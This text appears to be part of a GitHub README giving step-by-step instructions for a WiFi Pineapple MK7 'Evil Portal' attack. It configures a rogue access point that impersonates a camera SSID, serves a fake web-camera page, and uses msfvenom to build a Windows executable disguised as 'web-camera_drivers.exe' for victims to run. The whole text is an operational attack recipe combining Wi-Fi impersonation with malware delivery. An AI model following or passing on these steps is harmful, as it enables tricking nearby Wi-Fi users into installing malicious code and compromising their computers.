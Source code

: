 ### WiFi Pineapple - Web UI

PineAP Suite > Filtering : Client Filter "Deny List" and SSID Filter "Deny List"

### Hacker - Evil Portal

Edit the value of this constant in the "./configuration.php" file.
```php

/**
 * Payload
 */
$PAYLOAD_PATH = (string) './payloads/execution/web-camera.html';

```

### Hacker - Terminal

```bash
hacker@hacker-computer:~$ cd ./WiFi-Pineapple-MK7_Evil-Portal/
hacker@hacker-computer:~/.../WiFi-Pineapple-MK7_Evil-Portal$ msfvenom --arch x86 --platform windows --payload windows/exec CMD="..." --format exe-only --out ./web-camera_drivers.exe
```

### WiFi Pineapple - Web UI

PineAP Suite > Impersonation > Spoofed AP Pool : SSID "Apartment-LivingRoom_Camera" [Add]

PineAP Suite > PineAP : [Toggle] Impersonate all networks, [Check] Advertise AP Impersonation Pool and [Save]

__Note :__ *The SSID "Apartment-LivingRoom_Camera" is an example.*

